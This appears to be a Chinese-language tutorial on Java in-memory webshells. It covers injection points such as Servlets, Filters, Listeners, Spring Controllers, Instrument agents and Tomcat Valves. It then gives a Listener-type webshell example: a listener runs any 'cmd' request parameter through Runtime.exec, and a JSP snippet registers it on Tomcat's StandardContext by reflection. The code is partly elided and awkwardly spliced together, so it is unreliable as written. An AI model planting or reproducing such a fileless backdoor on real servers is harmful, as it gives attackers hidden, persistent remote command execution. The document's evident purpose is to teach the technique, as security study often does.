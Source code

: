 # **简介**
利用Java Web组件：动态添加恶意组件，如Servlet、Filter、Listener等。在Spring框架下就是Controller、Intercepter。

修改字节码：利用Java的Instrument机制，动态注入Agent，在Java内存中动态修改字节码，在HTTP请求执行路径中的类中添加恶意代码，可以实现根据请求的参数执行任意代码。

另外，在Tomcat 和 JBoss 中，还可以基于Valve组件添加恶意代码。

![](https://cdn.nlark.com/yuque/0/2024/png/38747917/1723016480005-51000dc8-f302-4354-b156-1dc32d9fd0bc.png)

Listener，Filter，Servlet的关系如上图所示，

Listener 用于监听 Web 应用程序的特定事件（e.g. Session创建）

Filter 用于对 Web 资源进行预处理和后处理（e.g. 身份验证）

Servlet 则是 Web 应用程序的核心,用于处理客户端的请求并生成响应（e.g. 响应HTTP）。

![](https://cdn.nlark.com/yuque/0/2024/png/38747917/1723016480199-f43b5fed-270f-4caa-93e5-4627c17da590.png)

Filter，Intercepter，Controller的关系如上图所示

Filter 位于最外层,对所有进出 Web 应用程序的请求和响应进行拦截和处理。

Interceptor 位于 Filter 和 Controller 之间,对进入 Controller 的请求进行拦截和处理。

Controller 位于最内层,负责具体的业务逻辑处理,并返回相应的 HTTP 响应。

## **Listener类内存马**
Listener类内存马，实现方式如下：

1. 获取StandardContext上下文
2. 实现一个恶意Listener
3. 通过StandardContext#addApplicationEventListener方法添加恶意Listener

实例：

```java
......  
public class Shell_Listener implements ServletRequestListener {

    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                Runtime.getRuntime().exec(cmd);
                ......                     
                <%
                // 通过反射获取 request 对象的 request 属性
                Field reqF = request.getClass().getDeclaredField("request");
                // 设置属性可访问
                reqF.setAccessible(true);
                // 获取 request 属性的值，转换为 Request 对象
                Request req = (Request) reqF.get(request);
                // 获取 Request 对象的 Context
                StandardContext context = (StandardContext) req.getContext();

                // 创建一个 Shell_Listener 对象
                Shell_Listener shell_Listener = new Shell_Listener();
                // 将 Shell_Listener 对象添加到 Context 中作为应用程序事件监听器
                context.addApplicationEventListener(shell_Listener);
                %>
```
